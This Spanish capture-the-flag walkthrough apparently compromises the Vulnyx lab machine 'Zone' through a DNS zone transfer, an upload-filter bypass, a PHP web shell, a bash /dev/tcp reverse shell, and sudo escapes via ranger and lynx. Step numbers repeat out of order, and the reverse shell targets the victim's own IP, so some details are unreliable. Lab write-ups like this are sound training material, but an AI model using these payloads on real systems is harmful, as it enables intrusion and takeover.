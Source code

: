 ```yaml
---
layout: post
title: "Zone"
date: 2024-05-10 17:10:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Zone </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#zone"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/zone/host.png){:.margin}

**1\.** Vemos hosts en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/zone/arp.png){:.margin}

**2\.** Escaneamos puertos y servicios activos.

`sudo nmap -p- --open -T5 -sS -sCV --min-rate=5000 -n -Pn 192.168.1.14 -oN report`

![img](/notas/public/img/vulnyx/zone/nmap.png){:.margin}

**3\.** En la web Apache no se encuentra nada interesante.

`http://192.168.1.14/`

![img](/notas/public/img/vulnyx/zone/80.png){:.margin}

**4\.** Descubrimos directorios y archivos.

`gobuster dir -u http://192.168.1.14 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t50 -x php,html,txt`

![img](/notas/public/img/vulnyx/zone/gobuster.png){:.margin}

**5\.** Revisamos el fichero robots. (tenemos un dominio)

`http://192.168.1.14/robots.txt`

![img](/notas/public/img/vulnyx/zone/robots.png){:.margin}

**6\.** Lo añadimos en nuestra configuracion de hosts.

`sudo nano /etc/hosts`

`192.168.1.14  securezone.nyx`
![img](/notas/public/img/vulnyx/zone/etc.png){:.margin}

**7\.** Vamos al nuevo dominio, vemos la pagina Apache por defecto.

`http://securezone.nyx`

![img](/notas/public/img/vulnyx/zone/securezone.png){:.margin}

**8\.** Hacemos una transferencia de zona, ya que tenemos un servicio dns.

`dig axfr @192.168.1.14 securezone.nyx`

![img](/notas/public/img/vulnyx/zone/dig.png){:.margin}

**9\.** Agregamos los subdominios al hosts. 

`sudo nano /etc/hosts`

`192.168.1.14  securezone.nyx admin.securezone.nyx ns1.securezone.nyx upl0ads.securezone.nyx www.securezone.nyx`

![img](/notas/public/img/vulnyx/zone/etc2.png){:.margin}

**10\.** Vamos revisando cada subdominio, en uploads tenemos subida de archivos.

`http://upl0ads.securezone.nyx`

![img](/notas/public/img/vulnyx/zone/upload.png){:.margin}

**11\.** Abrimos burpsuite y su navegador para ir a upl0ads e interceptar el tramite.

![img](/notas/public/img/vulnyx/zone/browser.png){:.margin}

**12\.** Probamos subir un archivo.

`echo "hola" > file.txt`

![img](/notas/public/img/vulnyx/zone/probefile.png){:.margin}

**13\.** En burpsuite tenemos la peticion interceptada. Presionamos ctrl +r para enviar al Repeater.

![img](/notas/public/img/vulnyx/zone/intercep.png){:.margin}

**14\.** Enviamos la solicitud para ver la respuesta. ctrl + i para enviar al Intruder.

![img](/notas/public/img/vulnyx/zone/response.png){:.margin}

**15\.** Identificamos las extensiones permitidos.

_\- Seleccionamos la extension y presionamos en Add$_

![img](/notas/public/img/vulnyx/zone/step1.png){:.margin}

_\- Agregamos extensiones, luego iniciamos el ataque_

![img](/notas/public/img/vulnyx/zone/step2.png){:.margin}

_\- Se abre otra ventana, Tenemos una extension permitida_

![img](/notas/public/img/vulnyx/zone/step3.png){:.margin}

_\- Le metemos codigo php 'malicioso'  y lo enviamos_

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/zone/sendfile.png){:.margin}

_\- Fuzzeamos para ver donde se subio nuestro archivo_

`gobuster dir -u http://upl0ads.securezone.nyx/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnyx/zone/gobuster2.png){:.margin}

**16\.** Vamos a la web a la nueva ruta, probamos el funcionamiento ejecutando un comando.

![img](/notas/public/img/vulnyx/zone/id.png){:.margin}

**17\.** Ganando acceso al sistema.

_\- Nos ponemos en esucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/vulnyx/zone/nc.png){:.margin}

_\- Nos enviamos una shell_

`http://upl0ads.securezone.nyx/uploads/file.phar?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.14/443 0>%261`

![img](/notas/public/img/vulnyx/zone/reverse.png){:.margin}

_\- Tenemos la conexion a la maquina_

![img](/notas/public/img/vulnyx/zone/connected.png){:.margin}

**19\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo;fg`

`reset xterm`

`export TERM=xterm-256color`

![img](/notas/public/img/vulnyx/zone/tty.png){:.margin}

**18\.** Vemos permisos sudo, podemos ejecutar ranger como usuario hans.

`sudo -l`

![img](/notas/public/img/vulnyx/zone/sudol.png){:.margin}

**17\.** Escalamos como usuario hans

_\- Ejecutamos el binario_

`sudo -u hans /usr/bin/ranger`

_\- Presionamos ! y enter_

![img](/notas/public/img/vulnyx/zone/ranger.png){:.margin}

_\- Nos lanzamos una bash como usuario hans_

`/bin/bash`

![img](/notas/public/img/vulnyx/zone/ranger2.png){:.margin}

**18\.** Revisamos permisos sudo, podemos ejecutar lynx como root.

`sudo -l`

![img](/notas/public/img/vulnyx/zone/sudol2.png){:.margin}

**19\.** Escalamos privilegios a root

_\- Ejecutamos el binario_

`sudo usr/bin/lynx`

_\- Tipeamos ! y presionamos enter para obtener una bash_

`!`

![img](/notas/public/img/vulnyx/zone/lynx.png){:.margin}

_\- Ya somos root_

![img](/notas/public/img/vulnyx/zone/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>